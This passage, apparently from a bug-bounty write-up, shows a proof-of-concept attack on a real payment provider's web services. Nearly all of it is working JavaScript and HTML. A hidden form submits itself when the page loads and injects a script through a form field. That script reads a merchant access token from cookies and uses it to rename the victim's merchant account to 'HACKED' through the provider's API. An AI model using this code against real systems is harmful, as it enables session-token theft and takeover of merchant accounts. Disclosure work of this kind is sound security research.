 ```javascript
xhttpExploit.setRequestHeader("Authorization", "Bearer "+auth);
xhttpExploit.setRequestHeader("Content-Type", "application/json");
      xhttpExploit.send(postBody);
  }
}; 
xhttp.open("GET", "https://onboarding.payu.in/api/v1/merchants", true);
xhttp.setRequestHeader("Authorization", "Bearer "+auth);
xhttp.setRequestHeader("Content-Type", "application/json");
xhttp.send();
```

And the final HTML code was this

```javascript
<!DOCTYPE html>
<html>
<head>
  <title>POC</title>
</head>
<body onload="submitPayuForm()">
<script type="text/javascript">
/* auto submit form when user visits our website. */
function submitPayuForm() {
  var payuForm = document.forms.payuFormExploit;
  payuForm.submit();
}
</script>

<form method="POST" action="https://insurance.payu.in/payment.php" hidden="" name="payuFormExploit">
  <input type="text" name="name" value="Aman Rawat">
  <input type="text" name="mobile" value="999999999">
  <input type="text" name="email" value='email">
<script>
document.body.onload = "exploitNOW";
function getCookie(name){
  var re = new RegExp(name + "=([^;]+)"); 
  var value = re.exec(document.cookie);
  return (value != null) ? unescape(value[1]) : null;
};
function exploiPayU(){
  var auth = getCookie("merchantAccessToken");
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.status == 200) {
        var resp = JSON.parse(this.responseText);
        var uuid = resp.merchants[0]["uuid"];
        var postBody = "{\"merchant\":{\"name\":\"HACKED\"}}";
        var targetURL = "https://onboarding.payu.in/api/v1/merchants/"+uuid;
        var auth = getCookie("merchantAccessToken");
        var xhttpExploit = new XMLHttpRequest();
        xhttpExploit.onreadystatechange = function(){
          if (this.status == 200) {
            console.log("exploit completed!");
          }
        };
        xhttpExploit.open("PUT", targetURL, true);
        xhttpExploit.setRequestHeader("Authorization", "Bearer "+auth);
        xhttpExploit.setRequestHeader("Content-Type", "application/json");
        xhttpExploit.send(postBody);
    }
  }; 
  xhttp.open("GET", "https://onboarding.payu.in/api/v1/merchants", true);
  xhttp.setRequestHeader("Authorization", "Bearer "+auth);
```